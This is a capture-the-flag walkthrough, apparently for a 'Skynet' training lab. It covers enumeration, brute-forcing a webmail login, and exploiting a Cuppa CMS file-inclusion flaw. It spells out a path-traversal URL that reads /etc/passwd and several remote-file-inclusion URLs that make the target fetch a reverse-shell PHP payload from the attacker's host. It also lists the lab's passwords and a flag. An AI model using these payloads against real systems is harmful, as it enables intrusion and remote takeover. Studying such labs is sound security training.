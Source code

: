### Skynet

export IP=10.10.68.81

#### Deploy and compromise the vulnerable machine!

What is Miles password for his emails?
- cyborg007haloterminator


nmap scan:

![](../../img/Pasted%20image%2020220827201706.png)

Gobuster scan:

![](../../img/Pasted%20image%2020220827203111.png)

Looking at the pages on the browser, almost all pages return nothing, except the /squirrelmail, where we need to login our credentials:


![](../../img/Pasted%20image%2020220827203156.png)

Looking for other vectors of attack, we observed the smb port is open. We will try to enumerate the port using smbmap:

![](../../img/Pasted%20image%2020220827203243.png)

There are 2 directories of interest, the anonymous and the milesdyson share. We will open both directories and get all information we can get:

Anonymous is easy to open since it does not use credentials:

![](../../img/Pasted%20image%2020220827203357.png)

Opening up attention.txt file (after we get all files from the share)

![](../../img/Pasted%20image%2020220827203429.png)

Opening up log1.txt:

![](../../img/Pasted%20image%2020220827203447.png)

Other logs provide no details.

Since we have a possible wordlist of passwords to be used on user milesdyson, we can either use hydra or burpsuite to bruteforce login and provide us the correct password. I use hydra for this challenge:

![](../../img/Pasted%20image%2020220827203818.png)

After logging in the credentials on the /squirrelmail page, we are now inside miles's inbox:

![](../../img/Pasted%20image%2020220827204045.png)

We can check for email called 'Samba Password reset'

![](../../img/Pasted%20image%2020220827204115.png)

Message:

```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

Using these credentials, we can now login to miles' smb share:

![](../../img/Pasted%20image%2020220827204226.png)

We have noticed the /notes folder:

![](../../img/Pasted%20image%2020220827204438.png)

looking inside notes directory, all files have .md pdf files except important.txt:

![](../../img/Pasted%20image%2020220827204520.png)

These are the details of important.txt:

![](../../img/Pasted%20image%2020220827204601.png)


What is the hidden directory?
- /45kra24zxs28v3yd

We visit the page and we are greeted by a picture:

![](../../img/Pasted%20image%2020220827204644.png)

We perform enumeration on the secret page and the results are as follows:

![](../../img/Pasted%20image%2020220827220920.png)

We visit the page /administrator but it seems that we need credentials again:

![](../../img/Pasted%20image%2020220827220954.png)

After this, we tried to use searchsploit for any vulnerabilities:

![](../../img/Pasted%20image%2020220827221033.png)

After searching, we can see that there is a vulnerability that uses local file inclusion for obtaining RCE, thus we tried to perform the LFI first:

![](../../img/Pasted%20image%2020220827221146.png)

For the LFI, we will use this syntax first to check if it really is working:

`http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`

Modifying into this:

`http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`

Reveals into this:

![](../../img/Pasted%20image%2020220827221323.png)

At this point, we can safely assume that RFI (remote file inclusion) is also possible, and i got stuck in this point.

We will now craft the RFI section of the vuln:

`http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.48.47:8080/reverse_shell.php?`

With which we will create a file in our local directory:

![](../../img/Pasted%20image%2020220827221852.png)

![](../../img/Pasted%20image%2020220827221902.png)

We will create a http.server on port 80 and netcat:

![](../../img/Pasted%20image%2020220827221934.png)

![](../../img/Pasted%20image%2020220827221945.png)

Then, after performing this link, we can now see that the httpserver has provided the php-reverse-shell file and netcat has now connected to the payload:

![](../../img/Pasted%20image%2020220827222042.png)

![](../../img/Pasted%20image%2020220827222057.png)

![](../../img/Pasted%20image%2020220827222109.png)

then performed shell stabilisation:

![](../../img/Pasted%20image%2020220827222126.png)

Then performed search for user.txt using find:

![](../../img/Pasted%20image%2020220827223411.png)

User flag:
7ce5c2109a40f958099283600a9ae807




http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.9.109.169/rshell.php

http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.48.47/php-reverse-shell.php?